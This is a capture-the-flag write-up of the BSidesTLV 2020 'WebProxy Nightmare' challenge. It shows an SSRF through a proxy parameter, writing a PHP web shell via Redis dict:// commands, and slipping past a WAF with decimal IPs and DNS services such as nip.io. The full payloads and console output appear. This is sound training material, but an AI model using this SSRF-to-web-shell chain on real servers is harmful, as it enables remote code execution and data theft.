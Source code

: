 # WebProxy Nightmare
* Category: Web
* 400 Points
* Solved by the JCTF Team

## Description
> I have implemented WAF! but again all my data is leaking! HELP ME
> 
> URL: http://webproxy2.ctf.bsidestlv.com:8002/?csurl=https://gdpr-info.eu/
> 
> Note: please include the BSidesTLV cookie


## Solution

This is the follow-up challenge for [WebProxy](WebProxy.md).

Again, we start by changing the `csurl` parameter to localhost:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# curl http://webproxy2.ctf.bsidestlv.com:8002/?csurl=http://127.0.0.1
```

As a response, we get a table with the following content:
| Service name: | IP Address: | Port: | 
| ------------- | ----------- | ----- |
| Redis | 10.42.106.242 | 6379 |
| NGINX | 10.42.249.43 | 80 |

We should probably try to see what happens when we run our original solution on the new server (after changing the IP address):

```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://10.42.106.242:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.106.242:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.106.242:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.106.242:6379/SAVE'
Sending request to: 'http://10.42.106.242:80/shell.php?command=cat $(find / -name flag.txt)'
BLOCKED BY WAF!
```

So there's a WAF here blocking access to the Redis server.

Turns out we can easily bypass it by changing the IP address.

One methods is using a decimal representation of the IP address:
```python
IP_ADDR = int(ipaddress.ip_address('10.42.106.242'))
```

Output:

```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://170552050:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://170552050:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://170552050:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://170552050:6379/SAVE'
Sending request to: 'http://170552050:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006ş  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!} mykey22<?php echo "\n"; system($_GET['command']); exit;?>ÿÙ�ÈŞÀRfİ
```

Another option is to use a DNS mapping service such as [1u.ms](1u.ms) or [nip.io](nip.io) that map a subdomain to an IP address based on the subdomain name:

```python
IP_ADDR = "make-10.42.106.242-rr.1u.ms"
IP_ADDR = "10.42.106.242.nip.io"
```

Output:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/SAVE'
Sending request to: 'http://make-10.42.106.242-rr.1u.ms:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006ş  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!} mykey22<?php echo "\n"; system($_GET['command']); exit;?>ÿÙ�ÈŞÀRfİ


root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://10.42.106.242.nip.io:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.106.242.nip.io:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.106.242.nip.io:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.106.242.nip.io:6379/SAVE'
Sending request to: 'http://10.42.106.242.nip.io:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006þ  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!}ÿKp¿’Ú“Êr
```

That wasn't such a nightmare after all.